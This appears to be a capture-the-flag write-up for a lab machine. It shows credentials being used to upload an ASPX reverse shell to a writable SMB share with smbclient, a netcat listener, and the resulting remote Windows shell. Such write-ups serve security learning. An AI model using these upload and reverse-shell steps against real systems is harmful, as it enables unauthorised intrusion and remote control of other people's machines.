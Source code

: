
We found a directory with the same name as the SMB share we have read/write on

![[Images/Pasted image 20240725175052.png]]

Finding a revshell
https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx

Let's upload the file

```sh
┌──(kali㉿kali)-[~]
└─$ cd shells

┌──(kali㉿kali)-[~/shells]
└─$ smbclient //relevant.thm/nt4wrksv -U 'Bob'%'!P@$$W0rD!123' -c 'put revsh.aspx' 
putting file revsh.aspx as \revsh.aspx (29.4 kb/s) (average 29.4 kb/s)

┌──(kali㉿kali)-[~/shells]
└─$ smbclient //relevant.thm/nt4wrksv -U 'Bob'%'!P@$$W0rD!123'                    
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul 25 18:14:16 2024
  ..                                  D        0  Thu Jul 25 18:14:16 2024
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  revsh.aspx                          A    15547  Thu Jul 25 18:14:16 2024

                7735807 blocks of size 4096. 4935823 blocks available
smb: \> 
```

We go to the new page
![[Images/Pasted image 20240725181830.png]]

```sh
┌──(kali㉿kali)-[~/shells]
└─$ nc -lvnp 443                                    
listening on [any] 443 ...

connect to [10.18.21.236] from (UNKNOWN) [10.10.121.172] 49836
Spawn Shell...
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
c:\windows\system32\inetsrv>

```
